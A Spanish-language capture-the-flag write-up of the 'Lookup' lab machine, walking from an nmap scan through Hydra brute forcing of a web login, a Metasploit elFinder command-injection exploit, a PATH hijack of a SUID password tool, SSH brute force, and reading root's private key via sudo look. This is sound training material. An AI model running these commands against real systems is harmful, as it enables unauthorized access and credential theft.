 #  Lookup

## Configuracion del host
Primero  entraremos a etc/hosts para configurar la ip junto con su dominio

![](0.png)

##  Inspección de la Red con Nmap

Comenzamos con un escaneo de la red para identificar los servicios activos en el dominio:

```bash
nmap -sS -sV 10.10.220.167 -oN resultado.txt
```

### Resultado de Nmap

Se identificaron dos servicios activos:
```
# Nmap 7.94SVN scan initiated Fri Feb 21 16:39:30 2025 as: /usr/lib/nmap/nmap --privileged -A -oN resultado.txt lookup.thm
Nmap scan report for lookup.thm (10.10.220.167)
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
|   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
|_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login Page
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```

- **SSH (puerto 22)**
- **HTTP (puerto 80)**

---

## Acceso a la Página Web

Accedemos al servicio HTTP mediante el navegador y encontramos la siguiente pantalla de **login**:

![](extra.png)

Intentamos probar credenciales comunes y obtenemos un mensaje de **usuario o contraseña incorrecta**:

![](1.png)

Al analizar más a fondo con **Burp Suite**, encontramos que cuando se introduce un usuario válido, la respuesta cambia indicando **"Contraseña incorrecta"**, lo que permite la identificación de usuarios mediante fuerza bruta.

![](2.png)

---

## Ataque de Fuerza Bruta con Hydra

Configuramos **Hydra** para identificar usuarios válidos:

```bash
hydra -L usuarios.txt -p abc lookup.thm http-post-form "/login.php:username=^USER^&password=abc:F=Wrong password"
```

**Usuarios identificados:**

- `admin`
- `jose`

![](4.png)

Ahora, buscamos contraseñas para estos usuarios. Solo encontramos la contraseña de `jose`:

![](5.png)

---
## Explotación del Servicio elFinder

Nos autenticamos y accedemos al servicio **elFinder**. Tras inspeccionar su versión (`2.1.47`), encontramos que es vulnerable.

![](extra%202.png)

Utilizamos **Metasploit** para explotarlo:

```bash
msf6 > use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set RHOSTS lookup.thm
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set LHOST 10.6.17.22
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > exploit
```

![](6.png)

**Acceso conseguido como `www-data` en una shell restringida**:

![](7.png)

---

## Escalada de Privilegios - Parte 1

Revisamos `/etc/passwd` y encontramos que el usuario `think` tiene permisos interesantes:

![](8.png)

Buscamos archivos **SUID** para identificar posibles vías de escalamiento:

```bash
find / -perm -4000 -type f 2>/dev/null
```

![](9.png)

**Ejecutable identificado:** `/usr/sbin/pwm`
Al analizar su funcionamiento, descubrimos que permite recuperar **el historial de contraseñas** de usuarios.

![](10.png)

---

##  Obtención de la Contraseña de `think`
Creamos un archivo en `/tmp/id` y lo configuramos para obtener la contraseña de `think`:
```bash
echo "#!/bin/bash" > /tmp/id
echo "uid=33(think) gid=33(think) groups=(think)" >> /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
/usr/sbin/pwm
```

![](11.png)

 **Historial de contraseñas recuperado:**
Creamos un diccionario con estas contraseñas y usamos **Hydra** para atacar SSH:
```bash
hydra -l think -P pass ssh://lookup.thm
```

![](12.png)

**Credenciales obtenidas:**
- **Usuario:** `think`
- **Contraseña:** `josemario.AKA(think)`

Nos autenticamos en SSH:

```bash
ssh think@lookup.thm
```

 **Flag de usuario obtenida:**

```bash
cat user.txt
```


---

##  Escalada de Privilegios - Parte 2

Revisamos los permisos `sudo` del usuario `think`:
```bash
sudo -l
```

**Permiso especial detectado:**
```bash
User think may run the following commands on lookup:
    (ALL) /usr/bin/look
```

![](14.png)

Usamos `look` para ver si hay una clave privada de SSH:
```bash
sudo /usr/bin/look '' /root/.ssh/id_rsa
```

 **Clave privada obtenida:**

![](15.png)

La configuramos con permisos adecuados y accedemos como `root`:
```bash
chmod 600 id_rsa
ssh -i id_rsa root@lookup.thm
```

 **Última flag obtenida:**
```bash
cat /root/root.txt
```


---

## **Conclusión**
- **Identificamos** servicios vulnerables con **Nmap**.
- **Descubrimos** usuarios válidos mediante **fuerza bruta con Hydra**.
- **Explotamos** el servicio **elFinder** con **Metasploit**.
- **Escalamos privilegios** explotando un **binario SUID (`pwm`)**.
- **Obtenemos acceso root** usando **sudo y el comando `look`**.

---
### 🏴‍☠️ Frase Inspiradora
> **"Si le das a un hacker un juguete nuevo, lo primero que hará es desmontarlo para ver cómo funciona."** – _Jamie Zawinski_